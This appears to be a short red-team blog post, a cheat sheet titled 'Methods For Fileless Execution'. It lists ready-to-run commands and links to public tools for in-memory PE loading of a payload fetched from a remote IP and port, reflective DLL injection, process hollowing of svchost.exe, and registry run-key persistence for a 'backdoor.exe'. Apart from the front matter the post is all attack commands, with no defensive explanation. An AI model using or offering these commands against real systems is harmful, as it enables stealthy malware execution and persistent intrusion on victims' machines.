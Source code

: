 ```yaml
---
layout: post
title:  "Methods For Fileless Execution(RTC0004)"
author: redteamrecipe
categories: [ tutorial ]
tags: [red, blue]
image: assets/images/12.jpg
description: "Methods For Fileless Execution"
featured: true
hidden: true
rating: 4.5
---
```




### PE Loader
```
FilelessPELoader.exe 192.168.126.240 8080 cipher. bin key. bin
```
https://github.com/TheD1rkMtr/FilelessPELoader


### Reflective DLL injection

```
DotNetLoader.exe TestDLL_x64.dll
```
https://github.com/monoxgas/sRDI



### Process Hollowing

```
hollow svchost.exe calc.bin
```

https://github.com/boku7/HOLLOW



### Registry Run Keys

```
SharpHide.exe action=create keyvalue="C:\Windows\Temp\Bla.exe"
```

or

```
SyscallHide.exe create C:\Windows\Temp\backdoor.exe argument1
```

https://github.com/outflanknl/SharpHide
https://github.com/panagioto/SyscallHide

